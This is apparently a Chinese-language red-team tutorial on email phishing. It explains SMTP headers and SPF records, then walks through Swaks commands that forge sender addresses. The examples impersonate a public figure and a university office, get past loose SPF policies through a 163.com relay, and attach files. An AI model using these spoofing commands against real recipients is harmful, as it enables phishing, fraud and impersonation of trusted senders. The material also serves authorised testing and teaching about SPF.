# 钓鱼攻击

> 作者 : [xidaner](https://github.com/xidaner)


钓鱼式攻击是指企图从电子通讯中，通过伪装成信誉卓著的法人媒体以获得如用户名、密码和信用卡明细等个人敏感信息的犯罪诈骗过程。

**什么是 SMTP**

当前 Email 通信，还是在使用 SMTP 这个协议。SMTP 的全称为 Simple Mail Transfer Protocol，即「简单邮件传输协议」。正如它的名字所暗示的，SMTP 实际上是一个非常简单（甚至简陋）的传输协议，本身并没有很好的安全措施。根据 SMTP 的规则，发件人的邮箱地址是可以由发信方任意声明的。在 SMTP 协议制定的时候也许还好，但在垃圾和诈骗邮件横行的今天，这显然是极不安全的。



**工作过程**

SMTP协议的工作过程可分为如下3个过程：

1. 建立连接：在这一阶段，SMTP客户请求与服务器的25端口建立一个TCP连接。一旦连接建立，SMTP服务器和客户就开始相互通告自己的域名，同时确认对方的域名。

2. 邮件传送：利用命令，SMTP客户将邮件的源地址、目的地址和邮件的具体内容传递给SMTP服务器，SMTP服务器进行相应的响应并接收邮件。

3. 连接释放：SMTP客户发出退出命令，服务器在处理命令后进行响应，随后关闭TCP连接。



而在邮件传输过程中会提到的两个`From`：

1. MAIL FROM：在SMTP认证中代表是谁发的，后面统称Smtp.From；
2.  Message FROM：定义在邮件内容Header中，呈现给收件人的From字段，在后面统称Message.From

**邮件的数据包解构**

```
Received: 由每个中继服务站添加，用于帮助追踪传输中出现的错误。字段内容包括，发送、接收的主机和接收时间。参数via 用于记录信息发送后经过的物理站点，”with” 指示了使用的邮件、连接的协议。参数 id 用于标识邮件。参数for 用于记录发送者的分发的目的地址。
Reply-To: 发件人地址是在发件人标题中实际找到的值。这应该是信息的来源。在大多数邮件客户机中，这就是您所看到的“发件人”。如果一封电子邮件没有回复头，那么所有的人工（邮件客户端）回复都应该返回到“发件人”地址。
Date: 表示建立信件的时间
From：发件人
To：收件人
cc：抄送人
Subject：邮件标题
Sender：发件人名称
Message-ID：SMTP协议发邮件自动生成的
X-Priority：邮件优先级
X-mailer：代理发信的客户端
MIME-Version: 所使用的网络邮件格式标准版本
Content-Type: 邮件内容数据的类型，包括类型标识(type)和子类型标识(subtype)，前者类型标识(type)声明了数据的类型，后者子类型标识(subtype)为这种数据类型指定了特定的格式。
Return-Path: 退信地址，该字段由信息的最后发送者添加，是关于信息原始来源的地址和回朔路径。
X-MS-Exchange-Organization-AuthSource：该 X-header 指定代表组织对邮件的身份验证进行评估的服务器计算机的 FQDN。
```

## 使用Swaks伪造一封邮件

```
需要条件:
163邮箱 或者自建邮箱域名
2021 kali
临时邮箱：
http://24mail.chacuo.net/
```

### Swaks

> kali中自带，或者从作者网页下载：http://www.jetmore.org/john/code/swaks/

**安装代码**

```bash
#下载文件并解压
wget  http://www.jetmore.org/john/code/swaks/files/swaks-20190914.0.tar.gz
tar -zxvf swaks-20190914.0.tar.gz
cd swaks-20190914.0/
#测试邮箱的连通性
sudo ./swaks --to  67*****28@qq.com
```

**常用代码**

Swaks 就是用于测试该协议而写的工具，可用于测试SMTP协议的各种操作

```
--to <接收方的地址>

--from <要显示的发件人邮箱>

--ehlo <伪造的邮件ehlo头>

--body <邮件正文>

--header <邮件头信息，subject为邮件标题>

--data <源邮件>  #可以使用txt格式的邮件原文进行发送邮件

--h-From <用于绕过SPF认证从而显示出发件人>
```

### 基础用法：

1. 测试连接

```
swaks –to <要测试的邮箱>      用来测试邮箱的连通性 ejghsl25348@chacuo.net
```



返回250ok，说明该邮箱存在，并且可以正常收信。



说明该邮箱存在，并且可以正常收信。最后可以看到qq邮箱返回`550错误`，qq官方给出的出错原因：该邮件内容涉嫌大量群发，并且被多数用户投诉为垃圾邮件。

我们可以继续对邮件进行伪造，来伪造邮件内容

2. 伪造邮件内容

```
swaks --body "test" --header "Subject:testT" -t <要测试的邮箱> -f admin@local.com
```



我们向qq邮箱发送请求，发现返回同样为 550，但是后面的提示为:SPF check failed(SPF认证未通过)


SPF认证未通过

**什么是邮件服务器的SPF配置**

SPF:

```
SPF 出现的目的，就是为了防止随意伪造发件人。

SPF 记录的原理 ：SPF 记录实际上是服务器的一个 DNS 记录，原理其实很简单：

假设邮件服务器收到了一封邮件，来自主机的 IP 是173.194.72.103，并且声称发件人为email@example.com。为了确认发件人不是伪造的，邮件服务器会去查询example.com的 SPF 记录。如果该域的 SPF 记录设置允许 IP 为173.194.72.103的主机发送邮件，则服务器就认为这封邮件是合法的；如果不允许，则通常会退信，或将其标记为垃圾/仿冒邮件。
```

SPF **记录的语法**

一条 SPF 记录定义了一个或者多个 mechanism，而 mechanism 则定义了哪些 IP 是允许的，哪些 IP 是拒绝的。

这些 mechanism 包括以下几类：

```
all | ip4 | ip6 | a | mx | ptr | exists | include
```

每个 mechanism 可以有四种前缀：

- **"+"Pass（通过）**
- **"-" Fail（拒绝）**
- **"~" Soft Fail（软拒绝）**
- **"?" Neutral（中立）**

严格来说，SPF 数据应该创建为 SPF 记录。但是鉴于很多 DNS 服务商不支持 SPF 记录，甚至有的邮件服务器也不支持 SPF 记录，因此大部分邮件服务提供商都创建为一条 TXT 记录

查看命令:

```
dig +short TXT <邮箱域名>
```



```
"v=spf1 include:spf.mail.qq.com ~all"
```

- v=spf1:   这是必须的，这个表示采用 SPF 1 版本，现在它的最新版本就是第 1 版。
- nclude:    格式为include:<domain>，表示引入<domain>域名下的 SPF 记录。注意，如果该域名下不存在 SPF 记录，则会导致一个PermError结果。例如： "v=spf1 include:example.com -all" 即采用和 example.com 完全一样的 SPF 记录   这里可以看到他和腾讯的QQ邮箱使用了相同的SPF记录
- ~all:    软拒绝所有的域名发送的邮件（参考上面提到的SPF语法）

只要最后这里不是硬拒绝的 -all 我们就有课可乘之机,比如我们这里冒充一下马云爸爸

```
swaks --body "test" --header "Subject:testT" -t xozsdg67205@chacuo.net -f mayun@xidaner.xyz
```



总结一下SPF 的绕过和利用：

检查一个企业的邮箱是否存在该漏洞，先dig一下SPF记录，看看只要不是硬拒绝 `-all` 就有可能存在该漏洞

或者直接使用网易系列的邮箱进行测试就行，网易邮箱护理机制比较宽松


### 进阶用法

1. 需要一个163邮箱，并打开 `POP3/SMTP` 服务







并记录下 `163.com身份校验码`

2. 构造文件内容，使用163.com的邮箱进行邮件的发送

```bash
swaks --to <目标邮箱> --from <163的邮箱> --h-From: '教务处<admin@xxx.edu.cn>'<伪造的发送人> --body "HI这是 由kali发送到您邮件中的内容" --header "Subject: kali论坛 致力于网络安全" --server smtp.163.com -p 25 -au <163的邮箱,与上方一致> -ap 邀请码
```

效果如下



**发送附件**

后方添加：

```bash
--attach example.doc<文件名称即可>
```




**参数解析**

```bash
--from test@qq.com #发件人邮箱；

--ehlo qq.com #伪造邮件ehlo头，即是发件人邮箱的域名。提供身份认证

--body "http://www.baidu.com" #引号中的内容即为邮件正文；

--header "Subject:hello" #邮件头信息，subject为邮件标题

--data ./Desktop/email.txt #将正常源邮件的内容保存成TXT文件，再作为正常邮件发送

--h-From: '教务处<admin@xxx.edu.cn>' # 伪造发件人
```

## 文章总结


**一款适用于红蓝对抗中的仿真钓鱼系统**

- https://github.com/xiecat/goblin


**几个好用的邮件伪造工具**

- https://zhuanlan.zhihu.com/p/147373196
- https://github.com/chenjj/espoofer


**学习参考**

- [在线伪造邮箱](http://tool.chacuo.net/mailanonymous)
- [Swaks - SMTP界的瑞士军刀](https://www.cnblogs.com/zhaijiahui/p/11494626.html)
- [kali下邮件发送工具swaks入手篇](https://blog.51cto.com/u_15155099/2780549)
- [关于伪造邮件的简单研究](https://hex.moe/p/4878b295/)
- [邮件伪造组合拳](https://www.anquanke.com/post/id/218889#h3-7)
- https://blog.csdn.net/qq_41248529/article/details/90515770
- https://www.freesion.com/article/9932501150/